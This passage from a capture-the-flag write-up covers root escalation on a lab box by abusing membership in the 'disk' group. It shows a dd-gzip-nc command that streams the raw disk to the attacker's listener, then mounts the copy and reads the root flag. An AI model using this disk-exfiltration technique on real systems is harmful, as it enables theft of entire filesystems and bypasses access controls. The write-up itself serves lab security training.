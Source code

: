 ## atanas -> root
There are two ways to break this box, with one being (possibly) unintentional but really cool. It all stems from this simple command, `id`. Can you spot the weakness?
```
atanas@kotarak-dmz:~$ id
id
uid=1000(atanas) gid=1000(atanas) groups=1000(atanas),4(adm),6(disk),24(cdrom),30(dip),34(backup),46(plugdev),115(lpadmin),116(sambashare)
```
Being a member of the `disk` group means you can access raw devices! This means we can just download the entire filesystem, mount it locally, and copy the root.txt off the box.
```
# victim
time dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.24 443
# locally
nc -lnvp 443 > filesystem.gz
```
After a few minutes (we are downloading a whole disk after all) we can mount and poke around the filesystem
```
gunzip filesystem.gz
sudo mount filesystem /mnt/
sudo cat /mnt/var/lib/lxc/kotarak-int/rootfs/root/root.txt
950*********************
```
